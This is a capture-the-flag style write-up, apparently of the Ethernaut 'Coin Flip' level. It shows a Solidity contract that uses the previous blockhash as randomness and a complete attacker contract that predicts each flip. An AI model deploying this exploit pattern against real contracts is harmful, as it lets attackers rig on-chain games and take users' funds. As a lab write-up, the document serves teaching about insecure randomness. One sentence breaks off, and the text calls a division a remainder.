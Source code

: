 # Level 3 - Coin Flip

### Objective

The objective of this level is as follows:

1. Guess the correct outcome of the coin flip 10 times in a row.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Solution

As we can see in the contract, the coin flip is determined by the remainder of the hashed block number divided by the factor constant. This

Unfortunately, this coin flip is not random at all and can be easily exploited with the following contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;
    }
}
```

The above contract (deployed via Remix on the same chain as the original contract) has a predetermined coin flip value based on the remainder of the hashed block number divided by the factor constant. By inputting the original contract address as a parameter into coinFlipGuess, we can correctly "guess" the value of the coin flip ten consecutive times.

Done!
